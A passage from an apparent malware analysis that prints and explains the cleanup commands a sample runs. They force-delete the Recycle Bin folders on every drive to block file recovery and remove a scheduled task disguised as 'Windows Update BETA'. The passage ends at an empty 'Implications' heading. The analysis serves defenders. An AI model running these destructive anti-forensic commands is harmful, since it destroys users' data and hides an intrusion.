 The malware will empty the recycle bin to prevent the recovery of deleted files and will delete the scheduled task it had initially set up.

```
cmd.exe "/c rd /s /q P:\\$RECYCLE.BIN,Q:\\$RECYCLE.BIN,R:\\$RECYCLE.BIN,S:\\$RECYCLE.BIN,T:\\$RECYCLE.BIN,U:\\$RECYCLE.BIN,V:\\$RECYCLE.BIN,W:\\$RECYCLE.BIN,X:\\$RECYCLE.BIN,F:\\$RECYCLE.BIN,G:\\$RECYCLE.BIN,K:\\$RECYCLE.BIN,L:\\$RECYCLE.BIN,M:\\$RECYCLE.BIN,N:\\$RECYCLE.BIN,O:\\$RECYCLE.BIN,Y:\\$RECYCLE.BIN,Z:\\$RECYCLE.BIN,A:\\$RECYCLE.BIN,B:\\$RECYCLE.BIN,C:\\$RECYCLE.BIN,D:\\$RECYCLE.BIN,E:\\$RECYCLE.BIN,H:\\$RECYCLE.BIN,I:\\$RECYCLE.BIN,J:\\$RECYCLE.BIN"

cmd.exe "/c rd /s /q P:\\Recycler,Q:\\Recycler,R:\\Recycler,S:\\Recycler,T:\\Recycler,U:\\Recycler,V:\\Recycler,W:\\Recycler,X:\\Recycler,F:\\Recycler,G:\\Recycler,K:\\Recycler,L:\\Recycler,M:\\Recycler,N:\\Recycler,O:\\Recycler,Y:\\Recycler,Z:\\Recycler,A:\\Recycler,B:\\Recycler,C:\\Recycler,D:\\Recycler,E:\\Recycler,H:\\Recycler,I:\\Recycler,J:\\Recycler"

cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove -Item 'd:\\$RECYCLE.BIN','c:\\$RECYCLE.BIN' -Recurse -Force"

cmd.exe "/c SCHTASKS.exe /Delete /TN \"Windows Update BETA\" /F"
```

These commands are Windows Command Prompt and PowerShell commands used to manipulate the Recycle Bin on various drives and to manage scheduled tasks. Here's a breakdown of each command:

1.  **Deleting $RECYCLE.BIN folders on multiple drives**: `cmd.exe "/c rd /s /q P:\\$RECYCLE.BIN,Q:\\$RECYCLE.BIN,R:\\$RECYCLE.BIN,...J:\\$RECYCLE.BIN"`
    
    -   `rd /s /q`: This command recursively (`/s`) and quietly (`/q`) deletes a directory.
    -   `P:\\$RECYCLE.BIN, Q:\\$RECYCLE.BIN, ..., J:\\$RECYCLE.BIN`: These are the paths to the `$RECYCLE.BIN` folders on various drives from P: to J:.
    -   This command effectively deletes the Recycle Bin folder from each specified drive, which could be used to permanently remove files bypassing the Recycle Bin.

2.  **Deleting Recycler folders on multiple drives**: `cmd.exe "/c rd /s /q P:\\Recycler,Q:\\Recycler,R:\\Recycler,...J:\\Recycler"`
    
    -   Similar to the first command, this one deletes the `Recycler` folder on various drives.
    -   `Recycler` is an older version of the Recycle Bin used in older versions of Windows, like Windows XP.

3.  **Deleting $RECYCLE.BIN folders using PowerShell**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-Item 'd:\\$RECYCLE.BIN','c:\\$RECYCLE.BIN' -Recurse -Force"`
    
    -   This PowerShell command removes the `$RECYCLE.BIN` folders from the C: and D: drives.
    -   `-Recurse -Force`: These flags ensure that all contents within the folders are removed forcefully, including hidden or system files.

4.  **Deleting the scheduled task named "Windows Update BETA"**: `cmd.exe "/c SCHTASKS.exe /Delete /TN \"Windows Update BETA\" /F"`
    
    -   `SCHTASKS.exe /Delete`: This command is used to delete a scheduled task.
    -   `/TN "Windows Update BETA"`: Specifies the name of the task to be deleted.
    -   `/F`: Forces the deletion of the task without any prompts for confirmation.

**Implications:**
